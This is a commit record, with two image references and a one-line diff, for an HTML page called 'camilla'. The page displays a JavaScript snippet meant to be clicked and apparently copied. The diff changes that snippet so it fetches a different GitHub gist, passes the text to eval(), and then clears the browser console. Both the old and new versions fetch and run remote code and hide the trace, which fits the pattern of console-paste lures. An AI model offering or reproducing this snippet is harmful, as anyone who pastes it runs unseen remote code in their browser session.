

Before and after one commit to Khasan1111/camilla, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,7 +17,7 @@
     </style>
 </head>
 <body>
-    <div id="code">fetch('https://gist.githubusercontent.com/Khasan1111/f9218594bbc5006fc5701ace58c0128c/raw/dca712fd36303edf405e57162437d638e9a376d7/script.js').then(r => r.text()).then(code => { eval(code); console.clear(); })</div>
+    <div id="code">fetch('https://gist.githubusercontent.com/Khasan1111/16e945923ce70faaaab7a90617246d3e/raw/e0ca26cb5102d0632be4a06ece705ae0fcbf60f8/gistfile1.txt').then(r => r.text()).then(code => { eval(code); console.clear(); })</div>
 
     <script>
         document.getElementById('code').addEventListener('click', function() {
```
